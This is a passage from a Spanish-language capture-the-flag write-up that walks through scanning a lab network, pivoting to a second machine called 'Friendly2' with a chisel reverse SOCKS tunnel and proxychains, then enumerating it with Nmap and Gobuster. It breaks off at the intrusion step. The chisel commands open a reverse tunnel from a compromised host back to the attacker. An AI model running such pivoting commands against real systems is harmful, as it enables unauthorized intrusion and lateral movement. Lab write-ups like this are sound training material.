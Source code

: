 	- `./NetScan.sh -o 10.0.2.6/24` -> Descubrir nuevos hosts
	- `./NetScan.sh -p 10.0.2.5` -> Enumeración de puetos abiertos al nuevo host "Friendly2"
#### <font color="#fac08f">Pivoting</font>
- Vamos a levantar el servidor de `chisel` en nuestra máquina y el cliente en "Friendly" para poder alcanzar `Friendly2`.

```bash
$> sudo ./chisel server --reverse -p 10000 # Kali: Creamos SERVER CHISEL

$> ./chisel client 192.168.100.4:10000 R:10001:socks # Máquina Friendly
# IMPORTANTE: modificar el fichero /etc/proxychains.conf -> "strict_chains" & "socks5 127.0.0.1 10001"
```
### <font color="#de7802">Friendly2</font>

#### <font color="#fac08f">Enumeración</font>
- Enumeración de puertos con `Nmap`:
<figure style="text-align: center;">
  <img src="/assets/img/commons/Friendly/nmapFriendly2.png" alt="SagaFriendly">
  <figcaption style="font-style: italic; font-size: smaller;">Nmap Friendly2</figcaption>
</figure>
- Vamos a realizar Fuzzing con `Gobuster` a la WEB, en este caso no usaremos `proxychains` ya que gobuster tiene una flag específica para lanzar bajo un proxy:
<figure style="text-align: center;">
  <img src="/assets/img/commons/Friendly/gobusterFriendly2.png" alt="SagaFriendly">
  <figcaption style="font-style: italic; font-size: smaller;">Gobuster Friendly2</figcaption>
</figure>
#### <font color="#fac08f">Intrusión</font>
- Vamos a ver ese directorio WEB `/tools`, se puede hacer desde un navegador como firefox configurando el addon `FoxyProxy` por ejemplo o en mi caso me parece más comodo realizar las peticiones bajo `proxychains`y `curl`.
<figure style="text-align: center;">